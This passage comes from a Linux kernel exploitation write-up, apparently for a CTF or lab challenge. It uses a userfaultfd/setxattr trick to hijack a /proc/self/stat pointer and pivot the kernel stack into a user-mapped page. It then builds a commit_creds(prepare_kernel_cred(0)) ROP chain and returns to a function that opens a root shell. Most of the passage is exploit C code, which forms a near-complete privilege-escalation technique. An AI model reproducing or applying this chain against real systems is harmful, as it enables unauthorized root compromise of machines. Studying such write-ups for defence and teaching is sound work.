 we can simply find one

![2021-10-22 22-33-17 的屏幕截图](pic/2021-10-22 22-33-17 的屏幕截图.png)

​	

​	Let's take this line for an example. The next thing we will do is to *mmap()* this page to place our rop chain. When we issue a read to the */proc/self/stat* we just opened, the control flow goes into our gadget to hijack the kernel stack to this memory region in user space, where our rop chain lies in.

​	The implementation wil be like

```c
// in main
	*(unsigned long*)(hang_mem - 0x8) = kernel_load_base + STACK_PIVOT;
    *(unsigned long*)(hang_mem - 0x10) = kernel_load_base + STACK_PIVOT;
    *(unsigned long*)(hang_mem - 0x18) = kernel_load_base + STACK_PIVOT;
    setxattr("/exp", "dummy", hang_mem-0x18, 0x20, XATTR_CREATE);

// in userfaultfd handler
    read(victim_fd, &leak, 1);
    while(1);
```





### 4.place our rop chain in user space

​	We will need to place our rop chain in the memory region where the kernel stack will be hijacked to before we issue a read() to the */proc/self/stat*. The rop chain is trivial

```c
    unsigned long* fstack = mmap((void*)0x83cb8000, 0x1000, PROT_WRITE|PROT_READ, MAP_ANON|MAP_PRIVATE, -1, 0);
    if(fstack==MAP_FAILED || (unsigned long)fstack!=0x83cb8000) ErrExit("[-] mmap() failed");
    unsigned long* rop = (unsigned long*)0x83cb89ca;

    *rop++ = kernel_load_base + POPRDIRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + PREPARECRED;
    *rop++ = kernel_load_base + POPRCXRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + MOVRDIRAXREPPOPRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + COMMITCRED;
    *rop++ = kernel_load_base + ROPUSERMOD;		// swapgs_restore_regs_and_return_to_usermode
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)win;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
```

​	The "win" function will be

```c
int win(void){
    close(victim_fd);
    puts("[*] win");
    // hang();
    system("/bin/sh");
    return 1;
}
```

